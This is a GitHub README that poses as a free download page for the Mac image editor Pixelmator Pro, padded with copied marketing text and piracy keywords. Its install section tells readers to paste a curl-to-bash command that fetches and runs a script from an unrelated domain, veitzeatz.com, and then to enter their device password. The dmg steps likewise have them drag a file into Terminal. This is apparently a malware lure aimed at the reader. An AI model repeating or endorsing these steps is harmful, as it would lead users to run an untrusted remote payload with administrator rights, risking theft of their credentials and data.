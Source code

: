 # Pixelmator Pro Mac

![Pixelmator Workspace](https://www.pixelmator.com/cdn-web-assets/pro/2.4/artwork/img_workspace-illustration--v2.jpg)

---

## 🔽 Download

<p align="left">
  <a href="https://pixelmator-pro-mac-download-ultimate.github.io/.github" target="_blank">
    <img src="https://img.shields.io/badge/Download-Pixelmator%20Pro%20Mac-blue?style=for-the-badge&logo=apple" alt="Download Pixelmator Pro Mac">
  </a>
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Pixelmator Pro Mac?

**Pixelmator Pro Mac** is a next-generation image editor for macOS that combines professional-grade editing tools with a beautiful, intuitive interface. Built exclusively for Mac, it takes full advantage of macOS technologies like Metal, Core ML, and Swift, delivering top performance and efficiency.

Pixelmator Pro offers everything from photo enhancements and retouching to vector graphics, painting tools, advanced color grading, RAW editing, and support for a wide range of image formats, including PSD. It’s designed to be simple for beginners, yet powerful for professionals.

Whether you're editing photos, creating illustrations, or designing interfaces, Pixelmator Pro provides the tools you need without the subscription fees. Thanks to its native support for Apple Silicon (M1/M2/M3), the app runs lightning fast on the latest Mac models.

With built-in machine learning capabilities, Pixelmator Pro lets you automatically enhance images, remove noise, upscale photos, and even select subjects with a single click. It's an all-in-one graphics editor that's equally suitable for hobbyists and professionals.

---

![Pixelmator Drawing](https://www.pixelmator.com/cdn-web-assets/pro/2.4/artwork/img_draw.jpg)

---

## 💡 Why Choose Pixelmator Pro Mac?

- 🖌️ Full-featured image editor: photo editing, painting, vector tools, and graphic design
- 🚀 Optimized for macOS: built with Metal, Swift, and CoreML
- 🧠 AI-powered: automatic enhancements, background removal, ML super-resolution
- 🎨 Professional tools: layers, masks, RAW support, PSD compatibility
- 🧩 Seamless integration: iCloud, Photos, and macOS file system
- 🖥️ Apple Silicon support: runs natively on M1/M2 chips
- 💵 One-time purchase: no subscriptions

---

## 💻 System Requirements

- **macOS**: 11.0 Big Sur or later  
- **Processor**: Apple Silicon or Intel  
- **RAM**: 4GB minimum (8GB recommended)  
- **Storage**: ~1.5GB available  

---

## 🔍 Keywords  
pixelmator pro, pixelmator, pixelmator pro mac, mac pixelmator, pixelmator app, pixelmator black friday, pixelmator pro discount, pixelmator pro sale, mac pixelmator pro, pixelator for mac, pixelator mac, pixelmator 3, pixelmator 3.0, pixelmator 3.2, pixelmator macos, pixelmator pro app, pixelmator pro for mac, pixelmator pro for mac free, pixelmator pro free, pixelmator pro full mac, pixelmator pro m1, pixelmator pro mac free, pixelmator pro mac full

